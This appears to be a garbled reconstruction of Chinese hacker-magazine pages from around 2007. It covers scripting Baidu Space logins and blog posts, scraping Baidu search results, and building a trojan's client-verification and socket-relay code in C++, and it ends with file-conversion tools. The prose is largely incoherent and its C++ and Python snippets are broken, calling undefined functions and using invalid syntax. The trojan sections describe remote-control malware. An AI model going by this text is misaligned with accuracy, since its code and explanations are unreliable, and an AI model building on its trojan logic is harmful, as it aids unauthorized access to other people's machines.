

整个程序使用`SrvDll.asm`直接链接生成执行文件。

# PROGRAMMING ANALYSIS

`Socket`，我们现在可用的选择有很多，为了方便网络中的新手，程序员遇到了许多难题，其中不乏一些选择，比现有的接口更好，基于这些为大家提供更方便的方式。比起下面的这篇文章，我们重新利用了以前的内容，通过简单的模板替换了以往复杂的操作，大家用一下，或许获得其他的发现！

适合读者：编程学者

前置知识：Python教程

## 百度窗口插件

百度窗口还是不够支持自己的 CSS，这就使得支持中文文档，没有过的 GIF。更重要的是我们要的图片窗口从100像素以上，发布窗口是不容易弹出的限制，这些限制带给我们痛苦，让我们创建一个丰富的自定义插件。

现在的情况是我的百度窗口里没有插件了，我也不想让百度窗口里找到很多方便的方法（或者内心的办法……比如显示插件的图标），显示百度插件的内容，我也要把这些做得更好。可能的是让我去制作插件可能太麻烦了！我想我自己来实现，用一种方法来显示我想要的信息，另外我还需要如何把这些的内容整合到百度窗口里，但是如何实现呢？我想讨论一下编写插件来定制自己的百度插件！

## 百度面板

因为我最近比较擅长自定义百度窗口，我要实现百度窗口的几个操作，我希望最好就是用`Socket`（`WebSocket`）来获取插件的内容，这样不需要频繁地发新的`GET`请求。现在我发现了`plugin.hijjak911111`，如果我用`Socket`监控百度窗口的时间获取数据，通过插件来实现，可行吗？

### 1 登录

发布类型：`POST`

接收跳转：`http://baidu.passport.com/login`

跳转链接：`splitPage=reg&splitUrl=http%3A%2F%2Fbaidu.com%3Fusername=hijjak9&password=11111&split=%3A%2F%2Fbaidu`

如果返回的结果中出现了“登录成功”这样的字样，说明登录成功了，否则失败了。我还需要注意返回结果的参数`name=password`，它们就是我们要登录的用户名和密码，这些参数并不大，在跳转的URL后面加上去就可行了，类似于`url%3A%2F`这样的。显示插件的内容经过了URL编码`Cookie`，不是我应该通过这种方式来传递插件的，这个后面说完。

### 2 发布文章

发布类型：`POST`

接收跳转：`http://hi.baidu.com/hijjak9/`

接收数据：`ct=1&cm=566splitCmAllow=1&splitPower=0&split=%3A%2F%2Fbaidu.com%3Fid=1234567890123456789`

如果返回的结果中出现了“成功”这样的字符，说明发布成功，否则失败了。返回结果两个为空，标签不能超过10字，内容不能超过400字。我还需要返回的参数：`ct`是必须，`title`是必须，`content`是必须，`power`是可选，`status`是可选，如果不选的话默认是公开，2为私有。我们在发布文章时注意细节。

### 3 发消息

发布类型：`POST`

接收跳转：`http://msg.baidu.com`

接收数据：`ct=22&it=8&nSubTitle&lu=http%3A%2F%2Fmsg.com%3Fmsg=123456789&id=67&hijjak9`

如果返回的结果中出现了“成功”这样的字符，说明发布成功，否则失败了。接收数据时`ct=22`，`it`是必须，`nSubTitle`是必须，`http://msg.baidu.com/it-btn=msg&is=1&username=hijjak9`我们要发送用户名，我们要发送的消息，`token`必须的。

### 4 删除文章

发布类型：`POST`


提交链接：`http://hi.baidu.com/hijack9/`

提交数据：`ct=1&spBlogID=9ac4d0a17740b1c953d8e1f3&refURL=http%3A%2F%2Fbaidu.com/spBlogText=...`

返回结果如果结果包含“成功”的字符串，就表示成功，否则失败。返回数据中`ct=1`表示为`spBlogID`为博客的类名，`spRefURL`为显示博客的网址，为了获取博客内容的最好办法是调用`http://hi.baidu.com/hijack9/blog/get?blogID`返回数据中可以通过`spURL`来获取。

### 5 添加分类

提交链接：`http://baidu.com/hijack9/`

提交数据：`ct=2&cm=1&spBlogName=category&type=%3A%2Fcategory&spRefURL=http%3A%2F%2Fbaidu.com/spBlogID=999category`

返回结果如果结果包含“添加成功”的字符串，就表示成功，否则失败。返回数据中`ct=2`表示为`spBlogName`为分类的类名，`spRefURL`为链接网址，注意分类的参数。

### 6 删除分类

提交链接：`http://baidu.com/hijack9/modify/category/`

提交数据：`ct=2&cm=1&spBlogName=category&spRefURL=http%3A%2F%2Fbaidu.com/999category`

返回结果如果结果包含“删除成功”的字符，就表示删除成功，否则失败。返回数据中`ct=1`表示为`spBlogName`为分类的类名。

### 7 修改分类

提交链接：`http://baidu.com/hijack9/`

提交数据：`ct=1&cm=3&spBlogID=9ac4d0a17740b1c953d8e1f3&9a7ce2c8&spBlogName=newcategory&spRefURL=http%3A%2F%2Fbaidu.com%2F%E4%B8%90&spBlogTitle=Hello&spBlogText=Hello%3C?fb%3E%3C/b%3EspBlogName=blog8u877&splisAllow=allow`

返回结果如果结果包含“修改成功”的字符串，就表示成功，否则失败。返回数据中`ct=1`表示为`spBlogID`为博客的类名，`editid`为空，`spBlogTitle`为修改后的类名。除了以上，我们还有几点要注意：在编写博客时，只需要用`POST`方法添加分类的头部是“`Content-Type: application/x-www-form-urlencoded`”，加上“`charset=UTF-8`”，否则返回的数据中就会出现乱码，说明你没有设置好编码。另外，非属于博客的分类会被隐藏，为了提高缓存和服务器的性能，在HTTP请求中加入“`Accept: application/json`”，`get`返回的数据将是`JSON`格式，方便解析。如果你需要删除分类，可能需要先登录，否则失败。服务器会检查登录的认证信息，登录后，服务器会返回一个`Cookie`，之后所有的操作中删除分类时，需要带上这个`Cookie`，否则失败。

# PROGRAMMING ANALYSIS

登录可以调用、登录的示例代码如下：

```python
import NewHiBbaidu
import os
baidu,user,pwd = 'hijack9', 'Hello', '1111!'
myNewHiBbaidu=NewHiBbaidu()
ret=myNewHiBbaidu.login(baidu,user,pwd)
if not ret:
    print("Login failed in Baidu Space!")
    sys.exit(0)
else:
    print("Login Baidu Successfully!")
```

## 2. `PostArticle(self,Title,Body,CatName='',Blogmtl=1,Power=0)`

这里是文章的内容，`Title`为标题，这两个参数是必须的，第3个参数可以选择`CatName`来显示文章的分类，默认认为“分类”，`Blogmtl`可以显示广告，一个发布需要三个参数，如果发布成功返回`True`，失败返回`False`，发布文章的示例代码如下：

```python
ret=myBaidu.Post("文章","今天不错！","记录")
if (not ret):
    print("文章发布失败")
    sys.exit(0)
else:
    print("文章发布成功!")
```

## 3. `defMsg(self,user,message)`

该方法发送指定的用户，`user`为要发送的用户名，`message`为要发送的内容，注意内容不能超过200个字。发送成功返回`True`，失败返回`False`，示例代码如下：

```python
ret=myBaidu.Msg('hijack9', 'Hello World!')
if (not ret):
    print("消息发送失败")
    sys.exit(0)
else:
    print("消息发送成功!")
```

## 4. `def DeleteArticle(self,url)`

该方法删除一篇文章，`url`为要删除的文章的`URL`，该路径可以是相对路径，删除成功返回`True`，失败返回`False`，示例代码如下：

```python
url = "http://www.baidu.com/hijack9/item/e0d7f8b112f3e63.html"
ret=myBaidu.DeleteArticle(url)
if (not ret):
```

## 5. `def AddCategory(self,CategoryName):`

该方法添加一个分类，`CategoryName`为要添加的分类名称，添加成功返回`True`，失败返回`False`。示例代码如下：

```python
name = "今天这里"
ret=myBaidu.AddCategory(name)
if (not ret):
    print("分类添加失败")
else:
    print("分类添加成功!")
```

## 6. `def DelCategory(self,CategoryName)`

该方法删除一个分类，`CategoryName`为要删除的分类名称，删除成功返回`True`，失败返回`False`。示例代码如下：

```python
ret=myBaidu.DelCategory('今天这里')
if (not ret):
    print("分类删除失败")
else:
    print("分类删除成功!")
```

## 7. `def EditArticle(self,Title,Body,Blogmtl=1,Power=0)`

该方法修改文章，`Title`为要修改的文章，`Body`为要修改的内容。如果`Title`为空则可以显示不修改，`Body`为修改文章的内容，`CatName`为空为显示不分类，`Blogmtl`可以显示广告，`Power`为1为是否允许修改，修改成功后返回`False`。示例代码如下：

```python
url = "http://www.baidu.com/item/d9c6788beaf329cfc44.html"
ret=myBaidu.EditArticle(url,"今天这里")
if (not ret):
    print("文章修改失败")
else:
    print("文章修改成功!")
```

## 8. `def GetArticleList(list):`

该方法获取指定分类内的文章列表，获取成功后返回数据，包含了每篇文章的`URL`链接，该方法非常有用！结合后续的方法可以很容易实现客户端查看数据。示例代码如下：

```python
mylist = []
mylist=myBaidu.GetArticleList(list).
```

# PROGRAMMING ANALYSIS

第6章 (socket) socket@hacker.com

```python
if (not mylist):
    print("获取列表失败")
for i in mylist:
    print(f"遍历列表输出")
```

```python
def getArticle(self, url):
```

该方法获取文档的相关信息，运行成功后返回一个列表，通过该数据获取相关信息，例如“`title`”是标题的，“`body`”是文档的内容，“`time`”是发布时间，“`category`”为分类名称，“`URL`”是文档的`URL`，如果失败，则返回`None`。示例如下

```python
if not mylist:
    mylist = myhash.getArticle(url)
    for i in mylist:
        myhash = i
        print(f"标题:{myhash['title']}")
        print(f"时间:{myhash['time']}")
        print(f"分类:{myhash['category']}")
        print(f"URL:{myhash['URL']}")
```

可以用代码获取文档内所有的标题、名称、内容和时间信息并显示出来。

## 代理服务器

尝试了我们以前没做过的事吧！这就尝试通过几个问题来代理服务器和方法来实现我们要做的事：

第一案例-我怎么去爬取“网站”呢？由于我们要在代理服务器上请求这个页面，这本小目的书籍《zhuanian》是`HTML`文件，我们将从第30端口向代理服务器发送请求，让`NewHacker`获取页面的内容。方法如下：


```python
# Import NewHacker: 我要如何设置代理服务器
import requests

proxy = Proxy() # 创建代理对象
zhuanian = proxy.get("zhuanian") # 获取书籍的内容
NewHacker = proxy.get("NewHacker")

if not resp:
    print("获取书籍失败")
```

 图1

访问网站：http://baidu.com/svgegb

http://baidu.com/svgegb

 图2

访问网站：http://baidu.com/svgegb

2022-06-21 16:23 正文：

2022-06-21 16:23 本文来说介绍如何设置代理服务器，如何获取响应，我的目标是创建一个代理服务器，提供内容，让你获取数据时最方便，比如上从本地获取，第二个从代理服务器来的，这是不可能的，除非通过代理请求来获取它。事实是很有力，还可以用来做的事情！比如这里的代理服务器如果用python来实现，大家要先学会这个！相信我，一个小时内就可以用爬虫的各种方法：

```python
proxy = Proxy() # 创建代理对象
zhuanian = proxy.get("zhuanian") # 获取书籍的内容
NewHacker = proxy.get("NewHacker")

if not resp:
    print("获取书籍失败")
```

```python
myhash.PostArticle("zhuanian") # 获取书籍
```

# PROGRAMMING ANALYSIS

《socket教程》（黑客教程）socket@hacker.com 如何通过百度搜索我们想要的网页？

## 百度搜索

别会，不是通过百度找到了自己的爱，至少还说我是个男生？我相信百度搜索是登录功能的，它也是个搜索，甚至想在百度里找到这个秘密。文中介绍了大家用百度找到自己喜欢的，比如百度是怎样搜的？如果你还知道搜索技巧的话，我们的搜索是为了人类吗？是的，让你们知道我们的空间，搜索的过程究竟是什么？还谈了如何通过百度发送邮件和Msg？没有，但是可以指定某个人，这样我们就可以收到邮件以及发送搜索了。大家都知道，我在百度上找到你，我做的目的是为了找到你！

我们是如何获取很多的百度地址的呢？首先告诉我，通过指定域名对百度地址，就可以轻易获取到它们！注册名和百度地址是不相同的，通过黑客搜索引擎：http://baidu.com/profile/访问：http://baidu.com/profile/就可以看到你想看的地址！


我们有两种方式可以获取百度搜索的地址，一种是从百度的首页，里面有“精彩活动推荐”的搜索栏，还有搜索框，这两个地址都存在不同的地方。找到它们，分别点击baidu.com，输入你想搜的关键词，就能得到结果。并不是，因为百度搜索是百度的产品，我们在百度的首页，百度搜索有不同的搜索方式！

我们还有另一种方式来获取你需要的，方法是在后面就找到了通过百度搜索到的地址，我们不是百度的搜索，我们是如何作为百度搜索的呢？首先要通过百度搜索找到地址，http://baidu.com，百度首页会列出列表，然后通过点击找到你想要的地址，然后比我找到的快！点击下面一个地址，然后比我找到的快！

百度首页显示的是前10个搜索结果，其他的百度地址网址：http://www.baidu.com/s.php?n=0&i=8&ie=baidu&bd=baidu&p=10。其他的百度地址就是把`n=10`、`n=20`。`n`的数字就是你想看到的百度地址最后是一个数字，搜索的数字是0，注意数字。

我们还有一种方法叫做谷歌搜索，如果你只是找东西，就需要你的耐心和技巧，以下方法代表我只花了半个小时去测试两个方法，如果只是为了地址的收集，使用浏览器插件就足够了！

百度话不多，百度搜一个文件`Fetch`，这个是通过关键词过滤器让百度去搜索，然后用字符串进行预处理就能获取百度的URL

 图1

# PROGRAMMING ANALYSIS

址，进而分析空间。该类提供了3种公共方法：

`def setword(self, w):` 该方法用于设置搜索的关键字。`self.w = w`。这样就可以在百度的搜索结果里进行搜索，可以根据你的需要对不同的命名空间进行搜索，范围限制在baidu.com中，但是通过该类可以一种方法限制为“关键字”。你可以通过该方法来测试如何。

`def setword(self, count=5):` 该方法要设置结果的页面并获取结果。`count`表示获取前几个页面，`count`为负数表示从第一页直到最后一页。

`def getNamespace(self):` 该方法用于获取命名空间结果列表，然后你可以进行下一步操作，比如通过关键字来搜索，你可以轻松搜到许多命名空间。由于百度的结果具有随机性，要注意在同一次搜索时可能会搜到多个结果属于同一个命名空间。这是存在的。

第二类是`BaiduLogin`，实现了登录功能：

`def login(self, username, password):` 该方法用于登录，`username`为用户名，`password`为密码。登录返回True，失败返回False。

`def send(self, username, message):` 该方法在命名空间后使用用户名，同时发送消息。`self.message = message` 该方法要发送的消息，发送返回True，失败返回False。

```python
import requests
from mySpider.Login import BaiduLogin
bl = BaiduLogin("username", "password")
if not bl.login("username", "password"):
    print("Message Failed!")
else:
    print("Message Successful!")
```

我们写一个例子：

```python
import requests
from mySpider.Login import BaiduLogin
bl = BaiduLogin("hacker", "123456")
if bl.login("hacker", "123456"):
    bl.send("hacker", "多个关键字") 
```

```python
class FetchSpace:
    def __init__(self, query):
        # 创建FetchSpace对象
        self.search_word = query
        self.start = 0

    def fetchSpace(self, count=1):
        # 获取指定数量的关键词
        results = []
        for i in range(count):
            word = self.getSpace(self.search_word)
            if word:
                results.append(word)
            else:
                break
        return results
```

获取指定数量的关键词：

```python
fs = FetchSpace("黑客")
keywords = fs.fetchSpace(5)
for kw in keywords:
    print(kw)
```

 图2

现在回来看分析过程中出现的问题，为什么我不要在百度的首页顶部获取结果的命名空间而不是先去搜索一次，然后再`get`匹配的地址来空间呢？由于百度上面的命名空间有限，然而我们就可以获取20多个，图3显示有26个不同的结果，我们可以搜索空间

 图3

# 发现冷门域名

文/图 荒山

不知道我还记得在我的《博客》中...

# PROGRAMMING ANALYSIS

> 目标端 (socket) socket@hacker.com



我们利用这段代码就可以获取连接对方的最佳IP地址，首先确定一个主机要连接的`DEFAULT_DESTINATION`，这里只需要定义任何一个网络地址即可通过`GetBestInterface`获取目标IP的索引，这样就可以通过IP列表里面对应的IP地址就可以了。

图1 木马工作流程图

外网IP，又该如何获取？具体代码如下：

2\. 获取外网IP。由于对方的客户端连接就会到了我们的电脑上，因此这里是最重要的一步——判断是否为木马，具体代码如下：

```cpp
#define DEFAULT_DESTINATION "192.168.1.100"
WORD GetBestInterface() {
// 获取连接对方的外网IP
PMIB_IPADDRTTABLE pAddrTable;
PMIB_IPADDROW ipRow;
ulong size = 0;
WORD result = INVALID_ADDRESS;
char *buffer = NULL;
// 获取目标IP端口的
result = GetBestInterface(saddr, DEFAULT_DESTINATION);
if (result != NO_ERROR) {
    // 失败，无法获取目标地址
    return INVALID_ADDRESS;
}
// 获取所有拥有的网卡信息
GetAddrTable(PMIB_IPADDRTTABLE, buffer, &size, 0);
buffer = (char*)malloc(size);
result = GetAddrTable(PMIB_IPADDRTTABLE, buffer, &size, 0);
if (result == NO_ERROR) {
    pAddrTable = (PMIB_IPADDRTTABLE*)buffer;
    for (int i = 0; i < pAddrTable->dwNum; i++) {
        ipRow = (PMIB_IPADDROW*)&pAddrTable->table[i];
        // 过滤本地地址，只返回公网地址
        if (ipRow->ipAddress.sin_addr.s_addr != 0x0A00007F) {
            result = ipRow->ipAddress.sin_addr.s_addr;
            break;
        }
    }
    return result;
}
free(buffer);
return INVALID_ADDRESS;
}
```

```cpp
#define MY_OWN_SIGN "..."
int Wsocket(SOCKET socket) {
SOCKET sock;
struct sockaddr_in client;
WORD dummy;
int count;
char flag[64];
while (MAX_USER) {
    char myFlag[64];
    threadinfo(NULL);
    if (strcmp(flag, myFlag) == 0) {
        accept(sock, (struct sockaddr *)&client, (socklen_t *)&count);
        if (sock == INVALID_ADDRESS) return 1;
        // 检查客户端是否为木马拥有的网卡属性
        while (count > 0) {
            recv(sock, flag, sizeof(flag), 0);
            if (strcmp(flag, MY_OWN_SIGN) == 0) {
                myFlag = "木马";
                break;
            }
            count--;
        }
    }
}
// 判断返回值参数是否为木马
if (strcmp(myFlag, MY_OWN_SIGN) == 0) {
    long local_addr = 127.0.0.1;
    SOCKET listen_sock = socket_Make_connection(AF_INET, SOCK_STREAM, 80);
    if (listen_sock == 0) {
        continue;
    }
}
// 恢复创建参数退出程序
return owner = 0;
}
```



www.hacker.com.cn (黑客防护) 2007 精装制作版 所有权利

# PROGRAMMING ANALYSIS

```cpp
NULL;
sockloop(my_sock, count, 0);
thread.recv(my_sock);
thread.send(my_sock);
CreateThread(NULL,0,doRetToHost,&int0,0,0,&hThread);
```

```cpp
int=info;
info.count=6;
info.go=AverageRandom(1000000,999999);
// 启动第二线程
sent(client, &info, sizeof(info)-3);
// 客户端与服务器协议
count=0;
while(count<256);
```

```cpp
// 等待创建完毕后向下执行
If(WaitSingleObject(owevent, INFINITE) == WAIT_FAILED) {
    continue;
}
CloseHandle(owevent);
```

```cpp
if(recv(client, buf,1)==SOCKET_ERROR) {
    closesocket(client);
    return FALSE;
}
count=0;
if(count==0 || buf[0]==0) {
    break;
}
buf=0;
count++;
```

```cpp
// 第一条线程就绪，再执行第二线程，避免锁
if(connect(client, &addr, sizeof(addr))!=0) {
    // 客户端失败，启动启动第二线程
    return;
}
handler[nUser]=CreateThread(NULL,0,ThreadWithClient,client,0,NULL);
if(WaitSingleObject(owevent,INFINITE)) {
    closesocket(client);
}
nUser++;
```

```cpp
typedef struct {
    int go;
    int count;
    int *info;
    int *info2;
};
// 第二条线程开始
BOOL sockthread(SOCKET client);
char buf[256], count=0;
int count2;
struct info *ninfo, *info2;
info=ninfo;
```

这是经过修改后的客户端数据，`if(memcmp(FLAG, sock,sizeof(sock))!=0)` 则判断线程是否就绪，这里只是用来判断线程是否完成，现在是向服务器发送请求了，在第一个线程完毕后再执行第二个线程，这样就避免了线程冲突，如果连接是可以成功的，那么就可以使用自己的数据了。

```cpp
if(send(client, &info, sizeof(info)-3,0)==0)

    return;

info.go=0;

recv(client, &info, sizeof(info)-3);

if(info.go!=0)

    // 再次连接

    if(info.info==MY_OWN_KEY)

    return;

    info.info=0;
```

`MY_OWN_KEY` 是定义的标识，客户端和服务器线程就不会出错。如果设置一个小的标识，是不够的，服务器必须定义自己的数据了。简单的，作为数据单元发送，在服务器上，`send(client, &info, sizeof(info)-3)`是为了发送数据，`recv`返回1表示收到了或者成功了。这里在代码里写得很清楚，第一条是发送客户端的线程，第二个线程是一个整体，服务器的响应，应该有数据！对于客户端请求的标识和服务器返回的标识是不一样的，如果某一个线程失败了，执行第二个线程，这是对第二个线程的操作，然后再处理它，用结构拷贝到内存，最后把拷贝到内存就成功了。连接后，接下来就是继续操作或者发送数据了，这里还是我的木马线程，网络上的这篇文章太大了，我自己看一下即可。结构和代码我自己写的，就是服务器和客户端的代理代码了，它的来源就是

```cpp
#define OWN_KEY 346 // 定义
```


# PROGRAMMING ANALYSIS

> 目标域名 socket@hacker.com.cn 《网络黑客进阶》


```cpp
DWORD WINAP readwrite(SOCKET tc, SOCKET tc)
char buff[4096], bufr[4096];
char recvbuf[4096];
long recv, recvc;
FD_SET(fd, &fd_set);
int ret, recvc;
SOCKET client_r; client_r=tc;
// 设置主线程接收控制单元
setenv("owner", 0);
recvc=0;
struct timeval Timeout;
Timeout.tv_sec=1;
Timeout.tv_usec=1000;
FD_ZERO(&fd_set);
FD_ZERO(&ding);
FD_SET(client, &fd_set);
FD_SET(client_r, &fd_set);
while (FD_ISSET(client, &fd_set) && !FD_ISSET(client_r, &fd_set)) {
// 默认值
ding=0;
 // 超时或错误
ret=select(0, NULL, NULL, NULL, &Timeout);
if (ret == SOCKET_ERROR) {
FD_CLR(client, &fd_set);
FD_CLR(client_r, &fd_set);
if (FD_ISSET(client, &fd_set)) {
recvc=recv(client, buff, sizeof(buff));
if ((ret == SOCKET_ERROR || recvc == 0 || ret == WSAECONNRESET)) {
FD_ZERO(&fding);
 // 此时可能只有一个连接
} else {
recvc=recvc;
buffer=buff;
recvbuf=buffer;
}}
if (FD_ISSET(client_r, &fd_set)) {
recvc=recv(client_r, buff, sizeof(buff));
if ((ret == SOCKET_ERROR || recvc == 0 || ret == WSAECONNRESET)) {
FD_ZERO(&fding);
 // 此时可能只有一个连接
} else {
recvc=recvc;
buffer=buff;
recvbuf=buffer;
}}
}
printf("%s", recvbuf);
```

```cpp
ret=recv(client, recvbuf, recvbuf, 0);
if(ret<0) {
    recvbuf+ptr+=recvc;
    recvc=-ret;
} else {
    err=WSAGLastError();
    if(err==WSAETIMEDOUT) {
        FD_ZERO(&fding);
    }
}
```

```cpp
if(recvc) {
ret=recv(client, recvbuf, recvbuf, 0);
if(ret<0) {
    recvbuf+ptr+=recvc;
    recvc=-ret;
} else {
    err=WSAGLastError();
    if(err==WSAETIMEDOUT) {
        FD_ZERO(&fding);
    }
}
sleep(1);
if(recvc) goto print;
closeocket(client);
closeocket(client);
return 0;
}
recvc=0;
```

这个客户端还需要要求的函数，其实和底面的三个我就单独拿好了，只介绍了一个比较基础的函数，其他的可以自己分析和实现，比如传入任意参数来指定的端口号等。编写书花了不少了不少，并不是很难，所以大部分时间花在实现上了，现在这个大模型已经做出了，以后打算什么，再发现一些特色的木马！


(网络防护)2007 萌黑客进阶 适合读者：爱好者、黑客、编码者

前置知识：无

# 文件格式想变就变 灵活转换工具

XXXXXX非常强大的工具（这里的“TO”到“OM”转换，包括等是一个文件转换工具，用来把各种格式（或文件）转换成另一种格式，或者保持原有格式，这种方式非常方便。在转换的过程中，转换格式是一个学习的过程，我们专门针对这些流行的转换工具提供更详细的介绍。

html?id=www.abc.com/download.php?id=32这样的地址转换成www.abc.com/32.exe的真实地址。



使用`ASPURL`在“地址”栏输入URL，然后点击按钮，页面上就会出现下载的真实地址，右键保存即可。非常方便，如图所示。

# `Acc2SQL`

`Acc2SQL`是一个数据库转换工具，它可以访问Access数据库并转换为SQL数据库文件，与相同格式的相反的转换工具，只要我们在Windows下运行即可。



首先运行`Acc2SQL`，选择源文件后点击开始转换，如图3所示。这是一个HTTP服务器，并将URL指定的文件从网站抓出来。你只需要知道真实地址即可。


# `BINHEX`和`HEX2`

使用`BINHEX`可以把二进制的字符串转换为十六进制的形式，而`HEX2BIN`正好可以实现反操作。

打开后看到提示：首先输入你的数据库名，再输入HEX的字符串，最后开始转换，如图4所示。

| Source | Destination |
| --- | --- |
| `select databases` |  |

